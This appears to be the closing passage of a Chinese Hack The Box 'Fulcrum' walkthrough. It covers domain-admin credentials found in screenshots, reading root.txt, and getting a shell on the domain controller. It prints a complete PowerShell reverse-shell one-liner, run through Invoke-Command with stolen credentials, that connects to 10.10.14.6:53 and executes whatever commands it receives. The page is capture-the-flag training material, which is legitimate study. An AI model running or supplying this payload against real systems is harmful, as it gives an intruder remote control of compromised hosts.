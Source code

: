## 发现域管密码

[![](assets/1699929055-ee1f15b87abe06c3def74778063c0af9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104435-95137a4c-81ce-1.png)

获取 root.txt  
读取到 root.txt

[![](assets/1699929055-38528d9791459d01e18fac9ddda11092.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104444-9a08b0e4-81ce-1.png)

## 反弹 shell

执行命令，然后使用 nc 来反弹 shell。

```bash
Invoke-Command -Computer dc.fulcrum.local -Credential $cred -scriptblock { $client = New-Object System.Net.Sockets.TCPClient('10.10.14.6',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()  }
```

[![](assets/1699929055-8ca83f1b4673788586921adc02da81a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104457-a218ddd6-81ce-1.png)

REF:  
[https://www.cnblogs.com/autopwn/p/14049762.html](https://www.cnblogs.com/autopwn/p/14049762.html)  
[https://www.hackingarticles.in/hack-the-box-fulcrum-walkthrough/](https://www.hackingarticles.in/hack-the-box-fulcrum-walkthrough/)
